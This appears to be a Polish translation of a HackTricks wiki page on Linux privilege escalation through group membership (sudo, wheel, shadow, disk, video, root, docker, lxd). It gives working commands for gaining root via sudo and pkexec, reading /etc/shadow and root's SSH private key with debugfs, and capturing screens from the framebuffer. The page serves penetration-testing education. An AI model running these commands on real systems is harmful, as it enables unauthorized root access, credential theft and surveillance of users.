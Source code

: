 {{#include ../../banners/hacktricks-training.md}}


# Grupy Sudo/Admin

## **PE - Metoda 1**

**Czasami**, **domyślnie \(lub ponieważ niektóre oprogramowanie tego potrzebuje\)** w pliku **/etc/sudoers** możesz znaleźć niektóre z tych linii:
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
To oznacza, że **każdy użytkownik, który należy do grupy sudo lub admin, może wykonywać cokolwiek jako sudo**.

Jeśli tak jest, aby **stać się rootem, wystarczy wykonać**:
```text
sudo su
```
## PE - Metoda 2

Znajdź wszystkie binarki suid i sprawdź, czy istnieje binarka **Pkexec**:
```bash
find / -perm -4000 2>/dev/null
```
Jeśli stwierdzisz, że binarny plik pkexec jest binarnym plikiem SUID i należysz do grupy sudo lub admin, prawdopodobnie będziesz mógł wykonywać binaria jako sudo za pomocą pkexec. Sprawdź zawartość:
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
Tam znajdziesz, które grupy mają prawo do wykonywania **pkexec** i **domyślnie** w niektórych systemach linux mogą **pojawić się** niektóre grupy **sudo lub admin**.

Aby **stać się rootem, możesz wykonać**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
Jeśli spróbujesz wykonać **pkexec** i otrzymasz ten **błąd**:
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**To nie dlatego, że nie masz uprawnień, ale dlatego, że nie jesteś połączony bez GUI**. A tutaj jest obejście tego problemu: [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). Potrzebujesz **2 różnych sesji ssh**:
```bash:session1
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```

```bash:session2
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
# Grupa Wheel

**Czasami**, **domyślnie** w pliku **/etc/sudoers** możesz znaleźć tę linię:
```text
%wheel	ALL=(ALL:ALL) ALL
```
To oznacza, że **każdy użytkownik, który należy do grupy wheel, może wykonywać cokolwiek jako sudo**.

Jeśli tak jest, aby **stać się rootem, wystarczy wykonać**:
```text
sudo su
```
# Shadow Group

Użytkownicy z **grupy shadow** mogą **czytać** plik **/etc/shadow**:
```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
Więc przeczytaj plik i spróbuj **złamać niektóre hashe**.

# Grupa dysków

To uprawnienie jest prawie **równoważne dostępowi root**, ponieważ możesz uzyskać dostęp do wszystkich danych wewnątrz maszyny.

Pliki:`/dev/sd[a-z][1-9]`
```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
Zauważ, że używając debugfs możesz również **zapisywać pliki**. Na przykład, aby skopiować `/tmp/asd1.txt` do `/tmp/asd2.txt`, możesz to zrobić:
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
Jednak jeśli spróbujesz **zapisać pliki należące do roota** \(jak `/etc/shadow` lub `/etc/passwd`\), otrzymasz błąd "**Permission denied**".

# Grupa wideo

Używając polecenia `w`, możesz znaleźć **kto jest zalogowany w systemie** i zobaczysz wynik podobny do poniższego:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
**tty1** oznacza, że użytkownik **yossi jest fizycznie zalogowany** do terminala na maszynie.

Grupa **video** ma dostęp do wyświetlania wyjścia ekranu. W zasadzie możesz obserwować ekrany. Aby to zrobić, musisz **złapać bieżący obraz na ekranie** w surowych danych i uzyskać rozdzielczość, którą używa ekran. Dane ekranu można zapisać w `/dev/fb0`, a rozdzielczość tego ekranu można znaleźć w `/sys/class/graphics/fb0/virtual_size`
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
Aby **otworzyć** **surowy obraz**, możesz użyć **GIMP**, wybrać plik **`screen.raw`** i jako typ pliku wybrać **Dane surowego obrazu**:

![](../../images/image%20%28208%29.png)

Następnie zmodyfikuj Szerokość i Wysokość na te używane na ekranie i sprawdź różne Typy obrazów \(i wybierz ten, który najlepiej pokazuje ekran\):

![](../../images/image%20%28295%29.png)

# Grupa Root

Wygląda na to, że domyślnie **członkowie grupy root** mogą mieć dostęp do **modyfikacji** niektórych plików konfiguracyjnych **usług** lub niektórych plików **bibliotek** lub **innych interesujących rzeczy**, które mogą być użyte do eskalacji uprawnień...

**Sprawdź, które pliki członkowie root mogą modyfikować**:
```bash
find / -group root -perm -g=w 2>/dev/null
```
# Grupa Docker

Możesz zamontować system plików root maszyny hosta do woluminu instancji, więc gdy instancja się uruchamia, natychmiast ładuje `chroot` do tego woluminu. To skutecznie daje ci uprawnienia root na maszynie.

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# Grupa lxc/lxd

[lxc - Podwyższenie uprawnień](lxd-privilege-escalation.md)

{{#include ../../banners/hacktricks-training.md}}
